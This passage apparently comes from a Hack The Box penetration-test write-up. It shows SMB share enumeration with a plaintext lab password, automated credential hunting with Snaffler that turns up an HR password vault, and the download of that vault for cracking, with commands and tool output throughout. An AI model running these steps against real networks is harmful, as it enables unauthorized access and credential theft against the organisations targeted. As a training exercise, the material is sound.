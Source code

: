 ## 📂 Phase 5: Network Share Analysis

### Share Enumeration
```bash
# Enumerate available shares
netexec smb hosts -u hwilliam -p 'dealer-screwed-gym1' --shares

# Key findings - FILE01 has interesting shares:
SMB         172.16.119.10   445    FILE01           Share           Permissions     Remark
SMB         172.16.119.10   445    FILE01           HR              READ,WRITE  
SMB         172.16.119.10   445    FILE01           IT                          
SMB         172.16.119.10   445    FILE01           MANAGEMENT                  
SMB         172.16.119.10   445    FILE01           PRIVATE         READ,WRITE  
SMB         172.16.119.10   445    FILE01           TRANSFER        READ,WRITE
```

### Snaffler Automated Credential Discovery

#### Tool Transfer and Execution
```bash
# Download Snaffler to attack host
wget -q https://github.com/SnaffCon/Snaffler/releases/download/1.0.198/Snaffler.exe

# Copy via RDP shared folder to Windows Desktop
# Execute from RDP session:
C:\Users\hwilliam\Desktop\Snaffler.exe -u -s -n FILE01.nexura.htb
```

#### Snaffler Results
```cmd
[NEXURA\hwilliam@JUMP01] 2025-06-11 20:13:06Z [Share] {Green}<\\FILE01.nexura.htb\HR>(R)
[NEXURA\hwilliam@JUMP01] 2025-06-11 20:13:06Z [Share] {Green}<\\FILE01.nexura.htb\PRIVATE>(R)
[NEXURA\hwilliam@JUMP01] 2025-06-11 20:13:06Z [Share] {Green}<\\FILE01.nexura.htb\TRANSFER>(R)

# Critical finding: Password vault discovered
[NEXURA\hwilliam@JUMP01] 2025-06-11 20:13:07Z [File] {Black}<KeepPassMgrsByExtension|R|^\.psafe3$|1.1kB|2025-04-29 15:09:57Z>(\\FILE01.nexura.htb\HR\Archive\Employee-Passwords_OLD.psafe3) .psafe3
[NEXURA\hwilliam@JUMP01] 2025-06-11 20:13:07Z [File] {Green}<KeepNameContainsGreen|R|passw|1.1kB|2025-04-29 15:09:57Z>(\\FILE01.nexura.htb\HR\Archive\Employee-Passwords_OLD.psafe3) Employee-Passwords_OLD.psafe3
```

---

## 🔓 Phase 6: Password Vault Cracking

### Password Safe File Extraction
```bash
# Connect to HR share and download the vault
smbclient -U nexura.htb\\hwilliam '\\172.16.119.10\HR'
# Password: dealer-screwed-gym1

smb: \> cd Archive
smb: \Archive\> get Employee-Passwords_OLD.psafe3
```
